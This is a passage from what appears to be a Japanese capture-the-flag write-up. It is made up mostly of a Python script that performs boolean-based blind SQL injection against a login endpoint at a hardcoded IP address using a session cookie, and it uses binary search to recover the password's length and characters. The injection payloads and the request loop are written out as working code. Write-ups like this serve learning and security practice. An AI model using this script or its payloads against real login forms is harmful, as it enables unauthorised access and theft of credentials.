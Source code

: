 ```python
print("result: " + fix_pass)
```
binary search版は以下。  
```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse
import urllib3
from urllib3.exceptions import InsecureRequestWarning
urllib3.disable_warnings(InsecureRequestWarning)

url = "http://35.190.155.168/b77586a1e8/login"
cookie = "d8iuvjr50tjvrmaj2gf97ts6bl"
headers= {'Cookie':'PHPSESSID='+cookie}

def attack(attack_sql):
    attack_url = url
    data = "username=" + urllib.parse.quote(attack_sql) + "&password=" + urllib.parse.quote("pass")
    #print(data)
    headers.update([('Content-Type','application/x-www-form-urlencoded')])
    res = requests.post(attack_url, headers=headers,verify=False,data=data)
    #print(res.text)
    return res


def create_length_query(md,times):
    # ' or 1 and substr(pass,1,1)='f' -- -
    query = "' or 1 and if(length(password) >= " + str(md) + ",1=1,1=3)#"
   # print(query)
    return query

def create_2tansaku_query(md,i,times):
    query = "' or 1 and if(ascii(substr(password," +str(i) + ",1)) >= " + str(md) + ",1=1,1=3)#"
   # print(query)
    return query


def check_result(res):
    if 'Invalid password' in res.text:
        return True
    return False

####################
###     main     ###
####################

def exploit_length(times):
    ok = 0
    ng = 100
    while ok + 1 != ng:
        md = (ok + ng) // 2
        print("    [+] try " + str(md) + "  times:" + str(times))
        query = create_length_query(md,times)
        res = attack(query)
        if check_result(res):
            ok = md
        else:
            ng = md
    print("")
    print("length: " + str(ok) + "  " +str(times) + " times")
```
